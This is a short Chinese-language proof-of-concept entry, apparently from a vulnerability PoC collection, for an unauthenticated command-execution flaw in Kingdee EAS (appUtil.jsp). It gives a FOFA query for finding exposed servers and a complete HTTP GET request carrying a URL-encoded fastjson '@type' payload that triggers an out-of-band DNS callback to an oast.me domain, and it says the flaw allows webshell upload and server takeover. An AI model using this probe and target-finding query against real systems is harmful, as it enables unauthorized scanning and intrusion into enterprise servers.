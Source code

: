 # 金蝶EAS存在appUtil.jsp命令执行漏洞

金蝶EAS和金蝶EAS Cloud在多个版本中存在文件上传漏洞，未经授权的攻击者可以通过特制的请求包或上传恶意的webshell文件，从而进行远程代码执行，控制服务器。

## fofa

```javascript
app="Kingdee-EAS"
```

## poc

```javascript
GET /easportal/tools/appUtil.jsp?list=%7B%22x%22%3A%7B%22%40type%22%3A%22java.net.Inet4Address%22%2C%22val%22%3A%22csbs1ru8ki46d67eiob0ywz51btedcjtj.oast.me%22%7D%7D HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411071131958.webp)



## 漏洞来源

- https://mp.weixin.qq.com/s/g7XvKIKPQf35z4IPt5i8iA
